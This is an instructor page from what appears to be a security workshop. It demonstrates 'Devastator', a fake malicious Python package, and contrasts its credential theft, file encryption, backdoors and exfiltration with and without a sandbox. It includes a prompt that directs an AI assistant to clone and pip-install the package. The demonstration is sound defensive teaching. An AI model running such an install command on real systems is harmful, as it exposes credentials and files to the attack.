

repository: na-launch-workshop/workshop-kata-claude-gateway-client · page: phase-1-security-demo/index.html · generator: mkdocs

# Devastator Demo — Security Workshop

> **INSTRUCTOR USE ONLY** — demonstrates why sandboxed code execution matters.

## Overview

Devastator is a fake Python package that looks like a useful utilities library but executes a multi-stage attack when installed. This demo shows the difference between running untrusted code with and without a sandbox.

## Running the demo

Click **Terminal** → **Run Task** → **Start Claude AI**.

> Or from the terminal: `python3.11 client.py chat`

Then paste this prompt:

```
Run this bash command: git clone https://github.com/pkredhat/devastator /tmp/devastator && pip install /tmp/devastator/
```

## What participants will see

| Stage | What happens | Sandbox result |
|---|---|---|
| 1 | Tries to steal env var credentials | Subprocess env is stripped — not found |
| 1b | Scans `/proc` for credentials in other processes | **Finds real API keys from the gateway process** |
| 2 | Encrypts all project files (ransomware) | Only affects this user's sandbox session |
| 3 | Injects backdoor into `.py` files | Sandbox only — no real impact |
| 4 | Tries to install cron backdoor + SSH key | Blocked — read-only filesystem |
| 5 | Tries to phone home to attacker server | Blocked — network policy |

## The key discussion points

1. **Stage 1b** — even with env stripping, `/proc` scanning finds real credentials. The API key is visible. Without network egress being blocked, those keys would be exfiltrated.

2. **Stages 4 & 5** — the Kata sandbox + network policy is what stops this from being catastrophic. On a regular container or a developer's laptop, these would succeed.

3. **Blast radius** — the encryption and backdoor only affect one user's sandbox session. Other participants are unaffected. On a real machine, all files would be encrypted.

## The "without sandbox" comparison

```
Without Kata + NetworkPolicy:
- Credentials stolen ✅
- Files encrypted ✅  
- Crontab backdoor installed ✅
- Data exfiltrated to attacker ✅
- All users affected ✅

With Kata + NetworkPolicy:
- API key visible in /proc ⚠ (partial)
- Sandbox files encrypted ⚠ (contained)
- Crontab blocked ✅
- Exfiltration blocked ✅
- Other users unaffected ✅
```

## Source

`https://github.com/pkredhat/devastator`
